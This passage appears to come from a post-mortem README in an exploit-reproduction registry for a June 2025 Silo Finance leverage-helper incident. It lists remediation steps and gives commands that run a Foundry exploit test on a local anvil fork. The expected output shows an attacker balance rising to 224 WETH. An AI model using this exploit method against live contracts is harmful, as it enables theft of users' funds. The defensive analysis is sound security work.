3. **Constrain the "exchange proxy" call.** Either route swaps through a fixed, audited router (e.g. a curated 0x Settler / Uniswap router) or, at minimum, validate `swapCallData`'s selector against an allow-list of swap selectors before the external call. `Silo.borrow` (and any non-swap selector) must never be reachable through `exchangeProxy`.
4. **Scope the borrow allowance.** The helper should hold narrowly-scoped, per-market, per-action allowances from borrowers (e.g. EIP-3009-style `receiveApproval` with a destination and amount cap), so that even a fully-malicious helper cannot redirect borrows to an arbitrary `receiver`. The collateral borrower must never be on the hook for a borrow whose `receiver` they did not authorise.
5. **Add a re-entrancy / call-target assertion on the helper.** After the flash returns, assert that the only state changes are: collateral increased in `depositArgs.silo`, debt increased in the linked borrow silo, and the borrower's balance of the borrowed asset increased — nothing else. Reject if WETH left the borrow silo to any address other than the helper.
6. **Revoke and re-issue the helper's allowances** with the patched contract, and have existing borrowers re-grant only the scoped allowance described in (4). Until (1)-(3) ship, treat `openLeveragePosition` as a privileged, allow-listed call, not a public one.

## How to reproduce

```bash
# from the registry root
_shared/run_poc.sh 2025-06-SiloFinance_exp --mt testExploit -vvvvv
```

The script spins up a local `anvil --load-state anvil_state.json` on `127.0.0.1:8545` (no public RPC), then runs:

```text
forge test --match-test testExploit -vvvvv
```

inside `2025-06-SiloFinance_exp/`. Expected tail of `output.txt` (verbatim):

```text
  Attacker Before exploit WETH Balance: 0.000000000000000000
  Attacker After exploit WETH Balance: 224.000000000000000000
…
Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 11.87ms (6.67ms CPU time)

Ran 1 test suite in 4.54s (11.87ms CPU time): 1 tests passed, 0 failed, 0 skipped (1 total tests)
```

Compiler: `Solc 0.8.34`, `evm_version = cancun` (from `foundry.toml` and [output.txt:1](output.txt)). The fork pins `block.number = 22_781_961` and `block.timestamp = 0x685c038b` ([output.txt:1569](output.txt) [output.txt:1573](output.txt)) so the reproduced debt shares exactly equal `HISTORICAL_DEBT_SHARES`.

*Reference: https://t.me/defimon_alerts/1356*
